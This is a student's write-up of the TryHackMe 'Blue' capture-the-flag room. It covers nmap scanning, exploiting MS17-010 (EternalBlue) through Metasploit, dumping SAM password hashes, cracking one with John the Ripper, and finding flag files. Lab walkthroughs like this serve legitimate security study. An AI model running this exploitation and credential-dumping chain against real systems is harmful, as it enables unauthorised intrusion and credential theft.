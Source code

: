 # Blue Room Tryhackme review.

might not include pictures in the review, just a reminder.

## Tools learnt and used:

1. Nmap 

2. Metaspoit

3. John the ripper

### First steps

- perform scanning with nmap
  
  - command used `nmap -sS -sV 10.10.141.125 -T4 or nmap -A -T4 10.10.141.125`.
  
  - The command above performs a stealth scan, shows all versions of available open ports, scans valid ports.

- enumerate open ports to find vulnerabilities.
  
  - using nmap `--script` to scan for vulnerabilities
  
  - `nmap --script vuln 10.10.141.125`
  
  - got a hit for vulnerable to ms17-010.

- Starting msfconsole since we already have an attack path and plan.
  
  - ms17-010 is smb vulnerability and gives us the ability to perform remote code execution.

- In msfconsole we need to search for the vulnerability we got to find an exploit.
  
  - `search ms17-010`
  
  - `exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption` - our result.

- We will use the result, but before running the exploit, we need to confirm if all our options are set. such as rhosts.
  
  - `set rhosts 10.10.141.125`
  
  - check if the hosts is vulnerable by running `check.

- We are in and we have to check if we have the necessary privileges using; `getuid`.  If we are *NT/ AUTHORITY\SYSTEM*, then we are root and the house is all ours.

- I need to the users passwords from the SAM file, though they will be hashed, we will crack them later.
  
  - `hashdump` - the command we run to dump all the passwords.
  
  - `Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::`
  
  - The username starts then permission, the hashed password. lm hash and nt hash.

- spin john to get cracking.
  
  - we need to get the password of the last user. We copy the hash and create a txt file containing it; `echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
  
  - `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

- We get the userpassword as `alqfna22`

- We need to find three flag files hidden in the system.
  
  - We have to get our hands dirty by gettin into the shell `shell`
  
  - By default we are in system32 and we need to get to root to perform our search `cd /`
  
  - To search for our  files, we use;
    
    - `dir /s /b "flag1.txt`
    
    - `/s` searches all subdirectories
    
    - `/b` returns file path
  
  - for {flag1.txt} - `C:\`
  
  - for {flag2.txt} -`C:\Windows\System32\config\flag2.txt`
  
  - for {flag3.txt} -`C:\Users\Jon\Documents\flag3.txt`

- We are done with the challenge.s
